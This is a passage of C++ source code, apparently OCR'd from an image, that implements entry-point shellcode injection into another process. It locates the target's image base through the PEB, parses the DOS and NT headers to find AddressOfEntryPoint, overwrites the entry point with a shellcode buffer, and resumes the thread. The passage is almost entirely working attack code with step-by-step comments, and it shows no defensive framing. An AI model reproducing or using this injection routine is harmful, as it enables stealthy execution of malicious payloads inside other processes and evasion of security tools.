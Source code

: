 ```c++
    auto lpBaseAddress = (LPVOID)((DWORD64)(pbi.PebBaseAddress) + 0x10);

    // read the base address (addresses are 8 bytes for x64)
    LPVOID baseAddress = 0;
    SIZE_T bytesRead = 0;
    ReadProcessMemory(
        pi.hProcess,
        lpBaseAddress,
        &baseAddress,
        8,
        &bytesRead
    );

    // now we can read the dos header
    IMAGE_DOS_HEADER dHeader = { 0 };
    ReadProcessMemory(
        pi.hProcess,
        baseAddress,
        &dHeader,
        sizeof(dHeader),
        &bytesRead
    );

    // use e_lfanew to calculate pointer to nt header
    auto lpNtHeader = (LPVOID)((DWORD64)baseAddress + dHeader.e_lfanew);

    // read the nt header
    IMAGE_NT_HEADERS ntHeaders = { 0 };
    ReadProcessMemory(
        pi.hProcess,
        lpNtHeader,
        &ntHeaders,
        sizeof(ntHeaders),
        &bytesRead
    );

    // calculate the entry point address
    auto entryPoint = (LPVOID)((DWORD64)baseAddress + ntHeaders.OptionalHeader.AddressOfEntryPoint);

    // write shellcode to this location, overwriting the PE
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        pi.hProcess,
        entryPoint,
        shellcode,
        sizeof(shellcode),
        &bytesWritten
    );

    // resume the process
    ResumeThread(pi.hThread);
}
```